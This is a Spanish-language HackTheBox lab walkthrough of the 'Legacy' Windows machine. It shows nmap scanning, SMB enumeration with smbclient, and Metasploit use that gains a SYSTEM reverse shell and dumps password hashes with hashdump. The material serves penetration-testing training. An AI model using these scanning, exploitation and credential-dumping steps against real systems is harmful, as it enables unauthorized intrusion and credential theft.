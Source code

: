 # 1 - Legacy \(win\_easy\)

Comenzaremos lanzandole un **nmap** a la maquina

```text
nmap -T4 -p- -A -sS 10.10.10.4
```

![](../../.gitbook/assets/imagen%20%28456%29.png)

Vemos **139 y 445** relacionados con SMB -&gt; SAMBA file share.

![](../../.gitbook/assets/imagen%20%28461%29.png)

Es algo a destacar en los reportes, puede dar acceso a alguna shell.

Vamos a atacar SMB porque es lo abierto.

## Usando smb client de kali

```text
smbclient -L \\10.10.10.4\
```

Aca nos pide la contra de root pero fue un buen intento, otra posible a intentar

```text
smbclient -L \\\\10.10.10.4\\
smbclient -L \\\\10.10.10.4\\$ADMIN
```

No hubo suerte, entremos a **metasploit**

```bash
msfconsole
> search smb_version
//Aca salen los buscadores auxiliares, usamos el siguiente
> use auxiliary/scanner/smb/smb_version
```

Vemos las optiones para ver que solicita

```bash
options
// Como dice RHOSTS podemos atacar una subnet, pero solo estamos contra una maquina
> set rhosts 10.10.10.4
> exploit
```

![](../../.gitbook/assets/imagen%20%28462%29.png)

Buscamos eso en Rapid7 

![Me lo llevo ](../../.gitbook/assets/imagen%20%28460%29.png)

Tiramos **run** y pim pum REVERSE SHELL 

Como estamos en este samba es distinto el shell

```bash
getuid
server username: NT AUTHORITY\SYSTEM    //Basicamente root
```

![](../../.gitbook/assets/imagen%20%28455%29.png)

Vemos que tiene almacenadoh

```bash
help //muy bueno muestra comandos MUY PODEROSOS
hashdump
```

![](../../.gitbook/assets/imagen%20%28458%29.png)

![](../../.gitbook/assets/imagen%20%28459%29.png)

Ahi estan las flags a hackear.

